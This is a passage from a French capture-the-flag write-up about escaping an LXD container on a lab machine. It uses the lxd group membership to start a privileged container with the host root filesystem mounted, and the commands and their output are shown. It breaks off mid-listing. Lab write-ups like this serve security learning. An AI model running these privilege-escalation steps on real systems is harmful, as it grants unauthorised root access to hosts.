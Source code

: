 Le cache ARP contient une adresse concernant l'interface lxdbr0 :  

```plain
cache arp
? (10.111.212.202) at 00:16:3e:7b:9c:22 [ether] on lxdbr0
```

On trouve aussi mention de cette IP dans le fichier /var/www/rule suivant :  

```bash
sudo PORT=80 PUBLIC_IP=192.168.0.176 CONTAINER_IP=10.111.212.202 sudo -E bash -c 'iptables -t nat -I PREROUTING -i eth0 -p TCP -d $PUBLIC_IP --dport $PORT -j DNAT --to-destination $CONTAINER_IP:$PORT -m comment --comment "forward to the Apache2 container"'
```

Ceci explique pourquoi on s'est retrouvé dans le container... Mais comment en sortir ?  

Si notre utilisateur a les idées par très claires en revanche ses GIDs sont plus intéressants :p   

```plain
uid=1000(alex) gid=1000(alex) groups=1000(alex),24(cdrom),30(dip),46(plugdev),119(lpadmin),125(sambashare),997(lxd)
```

Peace on hearth
---------------

On trouve rapidement un article de *Josiah Beverton* expliquant [comment s'échapper du container LXD](https://reboare.github.io/lxd/lxd-escape.html).  

Il suffit donc de reproduire les étapes de l'article. La seule différence c'est que les machines sur ces plateformes de CTF n'ont généralement pas d'accès Internet, il faut donc réutiliser un container déjà présent sur la machine.  

Le principe de l'exploitation est similaire à ce qu'il peut se faire avec Docker : on va créer un nouveau container sur lequel le système de fichier hôte sera accessible en totalité. Une fois dans le container on est en quelque sorte *upgradés* au lieu de *downgradés* :p   

```shellsession
alex@aloha:/tmp/.devloop$ lxc image list
+-------+--------------+--------+--------------------------------------+--------+----------+------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |             DESCRIPTION              |  ARCH  |   SIZE   |         UPLOAD DATE          |
+-------+--------------+--------+--------------------------------------+--------+----------+------------------------------+
|       | 86656dfa70d5 | no     | Ubuntu bionic amd64 (20190321_07:42) | x86_64 | 121.43MB | Mar 21, 2019 at 5:59pm (UTC) |
+-------+--------------+--------+--------------------------------------+--------+----------+------------------------------+
|       | f68aac3ef6f1 | no     | Ubuntu bionic i386 (20190321_07:42)  | i686   | 122.70MB | Mar 21, 2019 at 5:59pm (UTC) |
+-------+--------------+--------+--------------------------------------+--------+----------+------------------------------+
alex@aloha:/tmp/.devloop$ lxc init f68aac3ef6f1 devloop -c security.privileged=true
Creating devloop
alex@aloha:/tmp/.devloop$ mkdir yolo
alex@aloha:/tmp/.devloop$ lxc config device add devloop mydevice disk source=/ path=/tmp/.devloop/yolo recursive=true
Device mydevice added to devloop
alex@aloha:/tmp/.devloop$ lxc start devloop
alex@aloha:/tmp/.devloop$ lxc exec devloop bash
root@devloop:~# id
uid=0(root) gid=0(root) groups=0(root)
root@devloop:~# pwd
/root
root@devloop:~# ls -alR
.:
total 8
drwx------ 1 root root   30 Mar 21 07:42 .
```